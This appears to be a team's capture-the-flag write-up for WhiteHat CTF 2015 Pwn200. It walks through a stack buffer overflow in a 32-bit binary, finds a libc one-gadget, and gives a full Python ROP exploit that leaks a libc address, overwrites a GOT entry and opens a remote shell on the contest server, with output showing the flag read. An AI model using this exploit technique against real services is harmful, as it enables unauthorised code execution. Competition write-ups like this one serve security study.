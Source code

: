 ```yaml
---
layout: post
title: "WhiteHat CTF 2015 Pwn200"
date: 2015-07-26 12:55:14 -0400
author: [superkojiman,barrebas,et0x]
comments: true
categories: [whitehat]
---
```


### Solved by superkojiman, barrebas, and et0x

We're given a 32-bit binary and a copy of libc.so.6 used on the target. A disassembly of the binary showed an obvious buffer overflow: 

```
int sub_804863D()
{
  size_t v0; // eax@1
  int buf; // [sp+10h] [bp-80h]@1

  memset(&buf, 0, 128u);
  read(0, &buf, 1024u);
  v0 = strlen((const char *)&buf);
  write(0, &buf, v0);
  return 0;
}
```

A buffer of 128 bytes is zeroed out using memset, and then the binary reads 1024 bytes of data into it. The read data is then printed out to the user. The only defenses built into the binary was NX, and we assumed the target had ASLR enabled. 

If we input 144 bytes, we overwrite EIP. 

```
koji@pwnbox32:~/Desktop/pwn002$ python -c 'print "A"*140 + "B"*4' > in.txt
koji@pwnbox32:~/Desktop/pwn002$ ./pwn200 < in.txt 
Segmentation fault (core dumped)
koji@pwnbox32:~/Desktop/pwn002$ gdb -batch -c core -n -ex 'p $eip'
[New LWP 2848]
Core was generated by `./pwn200'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
$1 = (void (*)()) 0x42424242
```

All that was left was to figure out where to return to. Since we already had a copy of the target's libc, I decided to search for a one-gadget RCE that would essentially execute execve("/bin/sh"). Using IDA, I found one such instance:

```
.text:0003FB8F                 mov     eax, ds:(environ_ptr_0 - 1A7000h)[ebx]
.text:0003FB95                 mov     ds:(dword_1A8620 - 1A7000h)[ebx], 0
.text:0003FB9F                 mov     ds:(dword_1A8624 - 1A7000h)[ebx], 0
.text:0003FBA9                 mov     eax, [eax]
.text:0003FBAB                 mov     [esp+16Ch+var_164], eax
.text:0003FBAF                 lea     eax, [esp+16Ch+var_138]
.text:0003FBB3                 mov     [esp+16Ch+var_168], eax
.text:0003FBB7                 lea     eax, (aBinSh - 1A7000h)[ebx] ; "/bin/sh"
.text:0003FBBD                 mov     [esp+16Ch+status], eax
.text:0003FBC0                 call    execve
```

Great, all we needed to do now was leak libc's base address, and we were good to go. Barrebas took care of that. 

When I entered this CTF, the guys had already made quite some progress. They figured out they could leak memory by returning to `write()`. Superkojiman had found the one-gadget RCE address. All I had to do was leak a GOT pointer using `write`, apply the right offset and have the binary `read` in that new address into a GOT pointer. Finally, return to a PLT entry to jump to the one-gadget RCE & enjoy the shell!

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
        buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)
    
def pwn():
    global s
    s=socket(AF_INET, SOCK_STREAM)
#   s.connect(('localhost', 6666))
    s.connect(('lab33.wargame.whitehat.vn', 10200))
    
    payload = ""
    payload += "A"*140  

    write   = 0x80484e0     # plt entry of write
    read    = 0x8048520     # plt entry of read
    pop3ret = 0x804876d     # 
    
    payload += p(write)     # first leak a libc address
    payload += p(pop3ret)
    payload += p(1)         # fd = stdout
    payload += p(0x804a020) # got pointer of libc_start_main
    payload += p(4)         # count

    payload += p(read)      # have the binary read in the new address
    payload += p(0x8048500) # plt entry of libc_start_main; will be overwritten with address of RCE gadget
    payload += p(0)         # fd = stdin
    payload += p(0x804a020) # got pointer of libc_start_main
    payload += p(4)         # read in 4 bytes
    
    s.send(payload)
    
    data = s.recv(len(payload)) # first, receive our input echoed back to us
    data = s.recv(4)        # this contains the libc_start_main address
    
    libc_start_main = struct.unpack('I', data)[0]
    
    # apply some offsets, really helps to have libc.so.6 available to us
    print "[+] Leaked libc_start_main: " + hex(libc_start_main)
    libc_rce = libc_start_main - 0x19970 + 0x3FB8F
    print "[+] Calced libc_rce: " + hex(libc_rce)
    
    # over on the server side, the binary should be waiting at our read() call
    time.sleep(0.1)
    s.send(p(libc_rce))
    
    print "[+] Enjoy your shell!"
    t = telnetlib.Telnet()
    t.sock = s

    t.interact()

    s.close()
pwn()
```

And running it versus the remote server:

```bash
bas@tritonal:~/tmp/wh/pwn200$ python poc1.py
[+] Leaked libc_start_main: 0xf74d1970
[+] Calced libc_rce: 0xf74f7b8f
[+] Enjoy your shell!
id
uid=1003 gid=1003
cat /home/*/flag
WhiteHat{bccd54b76eaa8891d8704b3d194bfeb284d1e7c2}
```

Great team effort!

